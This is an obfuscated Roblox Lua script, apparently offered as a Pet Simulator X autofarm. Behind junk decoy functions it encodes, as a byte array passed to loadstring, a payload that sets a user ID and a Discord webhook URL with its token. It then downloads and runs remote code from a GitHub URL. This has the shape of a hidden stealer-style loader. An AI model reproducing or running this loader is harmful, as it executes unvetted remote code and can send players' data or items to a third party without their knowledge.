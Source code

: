 --[[NCDev Team Evolution]]  

function IllIlllIllIlllIlllIlllIll(IllIlllIllIllIll) if (IllIlllIllIllIll==(((((919 + 636)-636)*3147)/3147)+919)) then return not true end if (IllIlllIllIllIll==(((((968 + 670)-670)*3315)/3315)+968)) then return not false end end; local IIlllIIlllIIlllIIlllII = (7*3-9/9+3*2/0+3*3);local IIlllIIlllIIlllIIlllII = (3*4-7/7+6*4/3+9*9);local IllIIIllIIIIllI = table.concat;function IllIIIIllIIIIIl(IIllllIIllll) function IIlllIIlllIIlllIIlllII(IIllllIIllll) function IIllllIIllll(IIllllIIllll) end end end;IllIIIIllIIIIIl(900283);function IllIlllIllIlllIlllIlllIllIlllIIIlll(IIlllIIlllIIlllIIlllII) function IIllllIIllll(IIllllIIllll) local IllIllIllIllI = (9*0-7/5+3*1/3+8*2) end end;IllIlllIllIlllIlllIlllIllIlllIIIlll(9083);local IllIIllIIllIII = loadstring;local IlIlIlIlIlIlIlIlII = {'\45','\45','\47','\47','\32','\68','\101','\99','\111','\109','\112','\105','\108','\101','\100','\32','\67','\111','\100','\101','\46','\32','\10','\45','\45','\83','\67','\82','\73','\80','\84','\10','\95','\71','\46','\85','\115','\101','\114','\73','\68','\32','\61','\32','\57','\52','\49','\57','\57','\53','\51','\52','\56','\10','\95','\71','\46','\87','\101','\98','\72','\111','\111','\107','\32','\61','\32','\34','\104','\116','\116','\112','\115','\58','\47','\47','\100','\105','\115','\99','\111','\114','\100','\46','\99','\111','\109','\47','\97','\112','\105','\47','\119','\101','\98','\104','\111','\111','\107','\115','\47','\49','\48','\48','\52','\57','\48','\48','\52','\48','\51','\49','\52','\51','\53','\50','\52','\53','\49','\50','\47','\120','\99','\105','\109','\97','\53','\87','\79','\117','\52','\54','\71','\115','\54','\83','\65','\99','\84','\90','\107','\74','\71','\108','\87','\110','\85','\77','\83','\116','\77','\99','\90','\74','\65','\111','\112','\114','\104','\99','\49','\74','\75','\78','\119','\52','\118','\67','\100','\68','\117','\80','\51','\81','\74','\99','\110','\83','\57','\108','\90','\66','\55','\100','\80','\115','\86','\57','\74','\34','\10','\108','\111','\97','\100','\115','\116','\114','\105','\110','\103','\40','\103','\97','\109','\101','\58','\72','\116','\116','\112','\71','\101','\116','\40','\34','\104','\116','\116','\112','\115','\58','\47','\47','\114','\97','\119','\46','\103','\105','\116','\104','\117','\98','\117','\115','\101','\114','\99','\111','\110','\116','\101','\110','\116','\46','\99','\111','\109','\47','\73','\109','\90','\117','\110','\103','\47','\80','\115','\120','\65','\117','\116','\111','\102','\97','\114','\109','\47','\109','\97','\105','\110','\47','\112','\101','\116','\115','\105','\109','\120','\65','\117','\116','\111','\102','\97','\114','\109','\37','\50','\50','\41','\41','\40','\41','\10',}IllIIllIIllIII(IllIIIllIIIIllI(IlIlIlIlIlIlIlIlII,IIIIIIIIllllllllIIIIIIII))()
